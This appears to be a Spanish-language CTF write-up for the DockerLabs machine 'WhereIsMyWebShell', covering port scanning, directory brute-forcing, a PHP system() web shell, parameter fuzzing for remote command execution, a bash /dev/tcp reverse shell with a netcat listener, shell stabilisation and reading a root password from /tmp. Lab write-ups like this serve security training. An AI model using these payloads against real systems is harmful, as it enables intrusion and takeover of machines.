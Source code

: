 ```yaml
---
title: WhereIsMyWebShell - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/2adb662a-8cba-48da-82eb-b98ff3962e89)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/2f018b31-e463-4902-93b8-fc617163684a)

# Exploración Web
Al analizar el puerto `80`, encontramos una pagina de una academia de ingles.

![image](https://github.com/user-attachments/assets/a971e2a2-d111-40ad-b831-fca9dff08a03)

Podemos observar que nos tiene un mensaje guardado que dice `Guardo un secretito en /tmp ;)`.

![image](https://github.com/user-attachments/assets/5b31edab-c844-4794-9505-8742014b107a)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/9032b1e7-3e90-49c1-b5cf-7119fa622888)

Encontramos dos archivos interesantes: **warning.html** y **shell.php**

Explorando `warning.html` nos da pista sobre que `shell.php` tiene que tener una estructurura similar a esta:

![image](https://github.com/user-attachments/assets/225a25fe-307b-427e-a8e9-01a63a9bfde4)
```php
<?php
	system($_GET['shell']);
?>
```

Pero el parametro `shell` no sabemos si ese es el que tiene asi que haremos fuzzing para adivinar que parametro usa:
```bash
wfuzz -c --hl 0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
![image](https://github.com/user-attachments/assets/07c2a329-e749-477a-a9b1-478951bce4b8)

Vemos que el parámetro -> "**parameter**" con el comando **id** que le hemos pasado, nos devuelve 2 líneas a diferencia del resto. Nos dirigimos a la web a comprobar que funciona y efectivamente hemos logrado un **RCE**. (Ejecución remota de comandos).

![image](https://github.com/user-attachments/assets/920b5471-35d4-458a-9d0e-de1f3fc5c7a9)

## Reverse Shell

Añadiremos al **RCE** , en la url en vex del comando `id` añadiremos lo siguiente:

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/c59d752e-01b7-4776-8203-f937f296d8d5)


## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion 

Si os acordais no comentaron que tenian un secreto guardado en `/tmp` por lo que accederemos alli.

```bash
ls -la
```

Hay un archivo oculta llamado `.secret.txt` , el cual contiene la contraseña de root.

![image](https://github.com/user-attachments/assets/130efbd1-e383-4d6e-b066-57e84c42d871)

Accedemos con root.
```bash
su root
```
Ya somos root.

![image](https://github.com/user-attachments/assets/4683c0d8-7892-4a30-93ec-632a7801bcec)
